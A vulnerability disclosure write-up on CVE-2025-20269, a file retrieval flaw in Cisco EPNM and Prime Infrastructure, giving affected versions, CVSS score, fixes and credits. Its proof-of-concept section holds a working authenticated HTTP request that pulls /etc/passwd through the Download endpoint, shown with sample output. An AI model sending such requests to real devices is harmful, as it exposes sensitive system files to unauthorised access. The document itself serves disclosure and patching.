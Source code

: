 ```yaml
---
title:  "CVE-2025-20269: Cisco EPNM and Prime Infrastructure Arbitrary File Retrieval"
description: "CVE-2025-20269 is a vulnerability in the web-based management interface of Cisco Evolved Programmable Network Manager (EPNM) and Cisco Prime Infrastructure. It allows a remote, authenticated, low-privileged attacker to retrieve arbitrary files from the underlying file system by sending crafted HTTP requests. Cisco has released software updates to address the issue, and no workarounds are available."
authors: ["Paolo Grossetti, Matteo Piciarelli"]
date:   2025-08-27
tags: ["CVE", "Cisco", "EPNM", "Prime-Infrastructure", "File Disclosure", "POC"]
thumbnail:
  url: img/2025-08-27-cve-2025-20269/cve-2025-20269.jpg
  author: Ideogram
  authorURL: https://ideogram.ai/
---
```


## Introduction
A vulnerability has been identified in the web-based management interface of **Cisco Evolved Programmable Network Manager (EPNM)** and **Cisco Prime Infrastructure**, which could allow a remote, authenticated, low-privileged attacker to retrieve arbitrary files from the underlying file system on an affected device.

This issue has been assigned **CVE-2025-20269**.

## Technical description

The vulnerability is caused by **insufficient input validation** of specific HTTP requests sent to the management web interface.  
An authenticated attacker could send specially crafted HTTP requests to read sensitive files from the affected device.

- **Type of vulnerability**: Arbitrary File Retrieval  
- **Authentication**: required (low-privileged user)  
- **Impact**: access to sensitive files on the system  
- **Workaround**: not available  
- **Patch**: released by Cisco

## CVSS Score

| Vulnerability  | CVSSv3.1  | Attack Vector |
| --- | --- | --- |
| Sensitive Information Disclosure | 6.5 | AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N/E:X/RL:X/RC:X |

## Affected products
- **Cisco EPNM**: all releases up to 8.0 included  
  - Fixed in: **8.1.1**  
- **Cisco Prime Infrastructure**: all releases up to 3.9 and 3.10  
  - Fixed in: **3.10.6 Security Update 02**

## Impact
A successful exploit could allow the attacker to gain access to **sensitive files** on the affected system.  
This access may compromise the **confidentiality** of data and provide information useful for further attacks.

## Proof of Concept (PoC)

### HTTP request
```text
GET /webacs/Download?svc=multipath&downloadZipFileName=logFiles&downloadFileListWithPath=/etc/passwd& HTTP/1.1
Host: 127.0.0.1
Cookie: JSESSIONID=...;


```

### Expected output

The response contains a ZIP file with the file specified in the request.

```
root:X:0:0:root:/root:/bin/bash
bin:X:1:1:bin:/bin:/sbin/nologin
daemon:X:2:2:daemon:/sbin:/sbin/nologin
adm:X:3:4:adm:/var/adm:/sbin/nologin
```

### Notes
- The vulnerability was discovered in Cisco EPNM 7.1.3
- An authenticated low-privileged user is required  

## Mitigations
Cisco has released software updates that fix this vulnerability. No workarounds exist.  
Administrators should upgrade to a non-vulnerable release, as indicated in the “Fixed Software” section of the official advisory.

## References
- [Cisco Security Advisory – cisco-sa-pi-epnm-TET4GxBX](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-pi-epnm-TET4GxBX) 
- [https://www.cve.org/CVERecord?id=CVE-2025-20269](https://www.cve.org/CVERecord?id=CVE-2025-20269)
- [CVE-2025-20269 – NVD entry](https://nvd.nist.gov/vuln/detail/CVE-2025-20269)

## Credits
Cisco thanks **Paolo Grossetti** and **Matteo Piciarelli** of Consulthink S.p.A. for responsibly reporting this vulnerability.
